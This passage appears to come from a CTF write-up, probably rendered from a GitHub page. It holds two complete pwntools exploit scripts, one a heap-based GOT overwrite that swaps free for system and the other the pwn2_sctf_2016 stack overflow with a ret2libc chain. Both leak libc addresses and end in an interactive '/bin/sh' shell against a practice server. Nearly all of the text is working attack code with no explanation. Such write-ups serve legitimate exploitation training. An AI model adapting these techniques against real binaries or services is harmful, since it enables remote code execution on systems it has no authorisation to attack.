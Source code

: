   ```python
  
  def delete_user(index):
      r.sendlineafter('Action: ', '1')
      r.sendlineafter('index: ', str(index))
   
  def display_user(index):
      r.sendlineafter('Action: ', '2')
      r.sendlineafter('index: ', str(index))
   
  def update(index, length, text):
      r.sendlineafter('Action: ', '3')
      r.sendlineafter('index: ', str(index))
      r.sendlineafter('length: ', str(length))
      r.sendlineafter('text: ', text)
  
  add_user(0x80,0x80,'fuck')
  add_user(0x80,0x80,'fuck')
  add_user(0x8,0x8,'/bin/sh\x00')
  delete_user(0)
  payload = 'a'*0x198 + p32(free_got)
  add_user(0x100,0x19c,payload)
  display_user(1)
  r.recvuntil('description: ')
  free = u32(r.recv(4))
  libc_base = free - free_libc
  system = libc_base + system_libc
  log.success('libc_base {}'.format(hex(libc_base)))
  update(1,0x4,p32(system))
  delete_user(2)
  r.interactive()
  ```

* ### pwn2_sctf_2016

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20087)
  #context.log_level = 'debug'
  elf = ELF('./pwn2_sctf_2016')
  libc = ELF('./x86_libc.so.6')
  printf_plt = elf.plt['printf']
  printf_got = elf.got['printf']
  main = elf.symbols['main']
  printf_libc = libc.symbols['printf']
  system_libc = libc.symbols['system']
  binsh_libc = libc.search('/bin/sh').next()
  r.recvuntil('read?')
  r.sendline('-1')
  payload = 'a'*(0x2c+0x4) + p32(printf_plt) + p32(main) + p32(printf_got)
  r.sendline(payload)
  printf = u32(r.recvuntil('How',drop = True)[-16:-12])
  libc_base = printf - printf_libc
  system = system_libc + libc_base
  binsh = binsh_libc + libc_base
  log.success(hex(libc_base))
  payload = 'a'*(0x2c+0x4) + p32(system)+p32(main)+p32(binsh)
  r.sendline('-1')
  r.sendline(payload)
  r.interactive()
  ```
